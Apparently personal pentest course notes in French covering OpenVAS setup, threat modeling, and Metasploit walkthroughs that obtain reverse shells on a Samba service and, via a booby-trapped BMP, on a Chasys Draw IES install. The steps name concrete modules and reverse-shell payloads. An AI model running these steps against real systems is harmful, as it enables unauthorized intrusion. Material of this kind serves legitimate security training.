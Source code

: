 ## OpenVas

1. openvas-setup ----> installation d'openvas
2. openvas-check-setup ---> check l'installation
3. openvasmd --create-user user --role Admin --new-password (mdp par défaut sans cette option)
4. openvas est un serveur web, utiliser le bon port sur kali (:9392 ?) et se connecter

5. dans l'interface web, on peut spécifier une target avec plusieurs options
6. lancer un scan

# Exploitation

- L'exploitation doit être précise et rapide une fois la phase de reconnaissance
et scan fini.
- Suivre un threat modeling, une strategie : définir quels sont les cibles
  primairessecondaires/tertiaires

## Threat modeling:

- modeliser le but de l'attaque, et les façon d'y parvenir
avec un tableau en arbre

## Exploitation d'un service

1. ping cible : verifier que la cible est sur le réseau
2. nmap -sV cible : vérifier les versions des protocoles sur la machine
pour découvrir des failles. On suppose que la machine possède un Samba smbd 3 pour l'exploiter
3. dans metasploit (msfconsole) -> search samba : chercher les exploitations samba
4. choisir l'exploitation en fonction du rank (excellent est le mieux)
5. msf> info <exploit> : pour voir des infos sur l'exploit choisit
6. msf> use <exploit>
7. msf> show options
8. spécifier les options (set RHOST cible) (voir 9 à 11)
9. set RPORT 445
10. set PAYLOAD cmd/unix/reverse
11. set LHOST cible
12. exploit : lancer l'exploitation
13. normalement, on est connecté à la machine

## Exploitation applicatif

On choisit un logiciel avec une faille, ici Draw IES Artist, qui existe dans la
base de donnée de metasploit.
1. search chasys_draw_ies_bmp_bof (faille buffer overflow)
2. info <exploit>
3. use <exploit>
4. set PAYLOAD windows/meterpreter/reverse_tcp
5. set cible
6. image à ouvrir sur la machine cible, qui créé un bufferoverflow
7. on peut exploiter la machine.
